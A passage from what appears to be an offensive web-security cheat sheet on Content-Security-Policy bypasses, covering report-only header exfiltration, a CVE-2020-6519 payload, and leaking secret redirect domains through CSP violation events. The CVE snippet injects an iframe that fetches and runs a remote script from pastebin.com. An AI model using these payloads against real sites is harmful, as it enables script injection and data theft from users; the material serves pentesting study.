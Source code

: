 ```html
<meta
  http-equiv="Content-Security-Policy"
  content="script-src 'self'
'unsafe-eval' 'strict-dynamic'
'sha256-whKF34SmFOTPK4jfYDy03Ea8zOwJvqmz%2boz%2bCtD7RE4='
'sha256-Tz/iYFTnNe0de6izIdG%2bo6Xitl18uZfQWapSbxHE6Ic=';" />
```

### JS exfiltration with Content-Security-Policy-Report-Only

If you can manage to make the server responds with the header **`Content-Security-Policy-Report-Only`** with a **value controlled by you** (maybe because of a CRLF), you could make it point your server and if you **wraps** the **JS content** you want to exfiltrate with **`<script>`** and because highly probable `unsafe-inline` isn't allowed by the CSP, this will **trigger a CSP error** and part of the script (containing the sensitive info) will be sent to the server from `Content-Security-Policy-Report-Only`.

For an example [**check this CTF writeup**](https://github.com/maple3142/My-CTF-Challenges/tree/master/TSJ%20CTF%202022/Nim%20Notes).

### [CVE-2020-6519](https://www.perimeterx.com/tech-blog/2020/csp-bypass-vuln-disclosure/)

```javascript
document.querySelector("DIV").innerHTML =
  '<iframe src=\'javascript:var s = document.createElement("script");s.src = "https://pastebin.com/raw/dw5cWGK6";document.body.appendChild(s);\'></iframe>'
```

### Leaking Information with CSP and Iframe

- An `iframe` is created that points to a URL (let's call it `https://example.redirect.com`) which is permitted by CSP.
- This URL then redirects to a secret URL (e.g., `https://usersecret.example2.com`) that is **not allowed** by CSP.
- By listening to the `securitypolicyviolation` event, one can capture the `blockedURI` property. This property reveals the domain of the blocked URI, leaking the secret domain to which the initial URL redirected.

It's interesting to note that browsers like Chrome and Firefox have different behaviors in handling iframes with respect to CSP, leading to potential leakage of sensitive information due to undefined behavior.

Another technique involves exploiting the CSP itself to deduce the secret subdomain. This method relies on a binary search algorithm and adjusting the CSP to include specific domains that are deliberately blocked. For example, if the secret subdomain is composed of unknown characters, you can iteratively test different subdomains by modifying the CSP directive to block or allow these subdomains. Here’s a snippet showing how the CSP might be set up to facilitate this method:

```markdown
img-src https://chall.secdriven.dev https://doc-1-3213.secdrivencontent.dev https://doc-2-3213.secdrivencontent.dev ... https://doc-17-3213.secdriven.dev
```
